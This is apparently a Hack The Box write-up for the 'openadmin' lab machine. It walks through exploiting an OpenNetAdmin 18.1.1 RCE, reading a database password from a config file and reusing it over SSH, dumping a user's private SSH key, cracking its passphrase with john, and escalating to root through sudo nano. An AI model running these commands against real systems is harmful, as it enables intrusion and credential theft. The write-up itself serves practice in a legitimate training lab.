 ```yaml
---
layout: post
title: "[HTB] openadmin"
date: 2020-04-25 17:51:00 +0300
categories: htb hack
---
```


# openadmin

# user1

## portscan

* 22/tcp ssh
* 80/tcp httpd

## httpd

dirbust

* http://openadmin.htb/music
* http://openadmin.htb/sierra
* http://openadmin.htb/artwork

http://openadmin.htb/music -> login -> http://openadmin.htb/ona/

## OpenNetAdmin 18.1.1

<https://github.com/amriunix/ona-rce>
&nbsp;
```terminal
./rce.py http://openadmin.htb/ona/
cat local/config/database_settings.inc.php
```
&nbsp;
```php
<?php
$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
?>
```
&nbsp;
```terminal
cat /etc/passwd
```
&nbsp;
```text
...
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
...
```
&nbsp;
```terminal
ssh jimmy@openadmin.htb
n1nj4W4rri0R!
```

---
# user2
&nbsp;
```terminal
cat /etc/apache/sites-enabled/internal.conf
```
&nbsp;
```text
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>

```
&nbsp;
```terminal
cat /var/www/internal/main.php
```
&nbsp;
```php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```
&nbsp;
```terminal
curl localhost:52846/main.php
```
&nbsp;
```terminal
ssh2john id_rsa > priv.hash
john --wordlist=/usr/share/wordlist/rockyou.txt priv.hash

ssh joanna@openadmin.htb -i id_rsa
passphrase: bloodninjas
```

---
# root

```terminal
sudo -l

(ALL) NOPASSWD: /bin/nano /opt/priv
```

<https://gtfobins.github.io/gtfobins/nano/>
